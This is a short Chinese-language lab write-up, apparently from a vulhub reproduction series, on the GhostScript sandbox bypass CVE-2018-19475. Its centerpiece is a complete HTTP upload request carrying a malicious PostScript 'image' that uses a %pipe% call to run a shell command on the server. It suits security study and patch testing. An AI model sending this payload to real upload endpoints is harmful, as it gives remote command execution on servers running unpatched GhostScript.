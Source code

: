 # GhostScript 沙箱绕过（命令执行）漏洞（CVE-2018-19475）

###### by ADummy

### 0x00利用路线

​			构造poc png图片--->上传图片--->有回显命令执行

### 0x01漏洞介绍

​			2018年底来自Semmle Security Research Team的Man Yue Mo发表了CVE-2018-16509漏洞的变体CVE-2018-19475，可以通过一个恶意图片绕过GhostScript的沙盒，进而在9.26以前版本的gs中执行任意命令。

### 0x02漏洞复现

将POC作为图片上传，执行命令`id > /tmp/success && cat /tmp/success`：

```
POST /index.php HTTP/1.1
Host: target
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryukZmnyhO
Content-Length: 279

------WebKitFormBoundaryukZmnyhO
Content-Disposition: form-data; name="file_upload"; filename="1.jpg"
content-Type="image/png"

%!PS
0 1 300367 {} for
{save restore} stopped {} if
(%pipe%id > /tmp/success && cat /tmp/success) (w) file
------WebKitFormBoundaryukZmnyhO--
```

![GhostScript_沙箱绕过_RCE1_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/GhostScript_沙箱绕过_RCE2_1.jpg)



当然，真实环境下通常无法直接回显漏洞执行结果，你需要使用带外攻击的方式来检测漏洞

